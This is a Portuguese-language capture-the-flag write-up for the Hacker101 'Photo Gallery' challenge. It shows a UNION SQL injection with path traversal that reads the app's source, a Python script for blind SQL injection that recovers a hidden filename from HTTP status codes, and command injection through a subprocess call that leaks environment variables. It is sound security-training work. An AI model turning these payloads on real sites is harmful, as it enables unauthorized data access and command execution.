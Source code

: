 ## INTRODUÇÃO
![](https://i.imgur.com/xIUqemp.png)

Carolina Camacho
RM98171
noirangel707@protonmail.com

## FLAG0

O desafio escolhido foi Photo Gallery.
![](https://i.imgur.com/enz0vU0.png)
A página inicial do desafio é uma página contendo três fotos, das quais uma não é visível.

Analisando o código fonte percebi algo peculiar:
![](https://i.imgur.com/QU8Sbzt.png)
As imagens estão passando por uma página chamada "fetch" que recebe um parâmetro "id" contendo o id da foto. Acessando essa página obtemos o arquivo da foto, porém em texto:
![](https://i.imgur.com/F2joeSt.png)
Esses tipos de consultas podem ser vulneráveis a Error Based SQLi, por tanto tentei algumas queries possíveis mas sem sucesso em nenhuma, sempre acabava com a mensagem de "Internal Error":
![](https://i.imgur.com/lxQkBKG.png)
Após algumas horas quebrando a cabeça, decidi acessar a dica:
![](https://i.imgur.com/EhObF5f.png)
O que não foi extremamente útil, porque já estava trabalhando com a suposição de um SQLi, mas sem sucesso. Após mais algumas horas, decidi procurar um writeup porque não fazia mais ideia do que tentar:
![](https://i.imgur.com/mHeb4Hi.png)
Aparentemente em uma versão mais antiga do desafio, a dica era mais útil, reafirmando o SQLi mas dando uma dica essencial: a aplicação está utilizando **flask**, que é uma biblioteca **python**. Com essa informação, algumas novas ideias apareceram. Se essa aplicação foi implementada em Python, é possível que através de SQLi + Path Traversal eu possa acessar o código Python da página.
![](https://i.imgur.com/JjYyyxU.png)
Utilizando a seguinte query: `?id=99 UNION SELECT '/../../main.py'` é possível acessar, de fato, o código python. É necessário que o id selecionado **não exista**. O comando "UNION" irá unir o resultado das duas queries, a original e a nossa query injetada, que por sua vez irá acessar o arquivo "main.py", que está dois diretórios acima do diretório de trabalho da aplicação.

Após formatar o código python, eu adquiri a flag:
![](https://i.imgur.com/9w4r5QW.png)

## FLAG1

Essa flag exigiu bastante esforço. Utilizando a dica do writeup que estava lendo, já que essa dica é mais detalhada, podemos começar a raciocinar:
![](https://i.imgur.com/RtZdUZG.png)
Claramente a flag está relacionada com a foto de id 3, que nunca é exibida.

Quando fazemos uma query por qualquer ID que não seja o 3, se ele não existir, será retornado uma página 404 normal. O problema sempre está no id 3, que retorna um código 500 - Internal Server Error. Isso significa que existe algo com o arquivo de id 3 que quebra a query SQL. Analisando o código da main.py obtido anteriormente, o único campo possível que poderia quebrar a query SQL é o campo "filename".

Sabendo que qualquer query inexistente retorna 404 e a query que contém o filename do id 3 retorna 500, podemos construir um código que irá utilizar esses status codes para montar o nome do arquivo que está quebrado.

```python
import requests

def check(str):
    resp = requests.get(f"https://1a2dcd11786d02757af0605099400221.ctf.hacker101.com/fetch?id=-1 UNION SELECT filename FROM photos WHERE filename LIKE '{str}%' AND id=3")
    print(resp.status_code)
    if resp.status_code == 500:
        return True
    else:
        return False

CHARSET = list(''.join(map(str, range(10))) + 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ')
payload = ''

while True:
    for c in CHARSET:
        print(f"Trying: {c} for {payload}")
        test = payload + c
        if check(str(test)):
            payload += c
            print(payload)
            break

```

O código em questão irá utilizar do comando "LIKE" na nova query SQL. Esse, por sua vez, irá encontrar um arquivo que contenha algo "como" a string inserida. Além disso, forçamos que o ID seja 3. Após isso, iremos iterar sobre uma lista de caracteres (charset) que irá incrementar o nome do arquivo com uma letra a cada request feita com a resposta sendo um 500 - Internal Server Error. Eventualmente teremos o nome completo do arquivo.
![](https://i.imgur.com/qNbssOW.png)
Adicionando as tags de FLAG da Hacker101 e inputando a flag, conquistamos mais uma, concluindo o desafio da flag1.

## FLAG2
![](https://i.imgur.com/YWECWkl.png)
A segunda flag irá trabalhar com outra query SQL. No código, existe uma linha que utiliza uma chamada para subprocess, que é suspeita porque permite a execução de comandos de sistema. Pela forma como está escrita, é possível que possamos fechar as aspas e adicionar um payload na query.

Vamos atualizar o nome do arquivo id3. Com o payload correto, é possível, por conta da linha que utiliza a subprocess, injetar a flag no código fonte da página principal.
![](https://i.imgur.com/I3ox177.png)
Utilizando esse payload, definimos que o arquivo de id 3 terá seu nome alterado para o output do comando "printenv". O que fará com que a flag seja injetada no código fonte da página:
![](https://i.imgur.com/6AkMcVi.png)

Encerrando, assim, o CTF.
